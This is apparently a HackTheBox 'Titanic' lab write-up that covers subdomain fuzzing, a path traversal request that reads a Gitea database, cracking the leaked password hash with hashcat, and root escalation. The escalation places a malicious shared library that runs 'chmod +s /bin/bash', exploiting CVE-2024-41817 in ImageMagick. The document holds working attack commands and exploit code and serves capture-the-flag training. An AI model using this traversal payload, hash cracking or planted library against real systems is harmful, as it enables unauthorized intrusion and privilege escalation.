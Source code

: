```yaml
---
title: "Titanic"
date: 2025-06-21
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Titanic

![](../assets/Pasted%20image%2020250604002453.png)

<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 23:39 CEST
Nmap scan report for 10.10.11.55
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Aggressive OS guesses: Linux 5.0 - 5.14 (98%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), OpenWrt 22.03 (Linux 5.10) (92%), Linux 3.10 - 4.11 (91%), Linux 5.0 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   41.22 ms 10.10.14.1
2   41.60 ms 10.10.11.55

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.31 seconds
```

Add `titanic.htb` to `/etc/hosts`.

The site shows a service to book Titanic trips.

![](../assets/Pasted%20image%2020250604004538.png)

Use `wfuzz` to enumerate subdomains and find `dev`.

```shell
$ wfuzz -c -t 200 --hh 154 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.titanic.htb" http://titanic.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================
000000019:   200        275 L    1278 W     13870 Ch    "dev"                                 
```

Add `dev.titanic.htb` to `/etc/hosts` and browse the site.

![](../assets/Pasted%20image%2020250604004742.png)

It's a Gitea instance in which we can register.

Log in with the new account and check the repos to find some data.

The Docker Compose for `MySQL` with credentials, another one for Gitea, and the app code from before.

![](../assets/Pasted%20image%2020250602234840.png)

![](../assets/Pasted%20image%2020250604010747.png)

![](../assets/Pasted%20image%2020250604010124.png)

## Initial Access

We can see at the `/download` endpoint that there is no path traversal protection, so we can make a request and perform an LFI attack pointing to the Gitea database at `/home/developer/gitea/data/gitea/gitea.db` as seen in the Docker Compose and the Gitea docs (`gitea/gitea.db`).
`/download?ticket=../../../../../../../home/developer/gitea/data/gitea/gitea.db`

![](../assets/Pasted%20image%2020250604011004.png)

The hash and salt are in hex format; we need them in `base64` to feed them to hashcat as seen [here](https://hashcat.net/wiki/doku.php?id=example_hashes):

![](../assets/Pasted%20image%2020250604011501.png)

hash: `e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`
salt: `8bf3e3452b78544f8bee9400d6936d34`

Use `xxd` to convert it from hex to binary and then `base64` to encode it.

```shell
$ echo 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56' | xxd -p -r | base64
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ echo '8bf3e3452b78544f8bee9400d6936d34' | xxd -p -r | base64
i/PjRSt4VE+L7pQA1pNtNA==
```

`sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

```shell
$ sudo hashcat hash SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --force -d 2
hashcat (v6.2.6) starting in autodetect mode

The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Dictionary cache hit:
* Filename..: SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
* Passwords.: 14344383
* Bytes.....: 53291283
* Keyspace..: 14344383

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

`developer:25282528`

Log into the machine via `ssh`:

```shell
$ ssh developer@titanic.htb
developer@titanic.htb password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Jun  3 09:55:33 PM UTC 2025

  System load:           0.78
  Usage of /:            83.1% of 6.79GB
  Memory usage:          23%
 
Last login: Tue Jun 3 00:17:16 2025 from 10.10.14.8
developer@titanic:~$ cd /opt
developer@titanic:/opt$ whoami
developer
```

Get the flag:

```shell
developer@titanic:~$ cat user.txt
c7158d122d55f4fa53de64dd03ca2085
```

## Privilege Escalation

A script in `/opt/scripts` that uses `magick` does some processing on images.

```shell
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

We can check the version:

```shell
developer@titanic:/opt/scripts$ /usr/bin/magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
```

Looking for vulnerabilities, we find [CVE-2024-41817](https://www.fortiguard.com/encyclopedia/endpoint-vuln/81352#), which we can use to escalate privileges.

- [FortiGuard CVE-2024-41817](https://www.fortiguard.com/encyclopedia/endpoint-vuln/81352#)
- [Mindpatch writeup](https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613)

Create the shared library and place it in the working directory `/opt/app/static/assets/images`:

```shell
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
__attribute__((constructor)) void init(){  
    system("chmod +s /bin/bash");  
    exit(0);  
}  
EOF
```

A root cron job will execute it.

![](../assets/Pasted%20image%2020250604012917.png)

## Post Exploitation

Get the flag:

```shell
bash-5.1# cat root.txt
aa8be85cd77b9e27a344d1c68ec01f3f
```

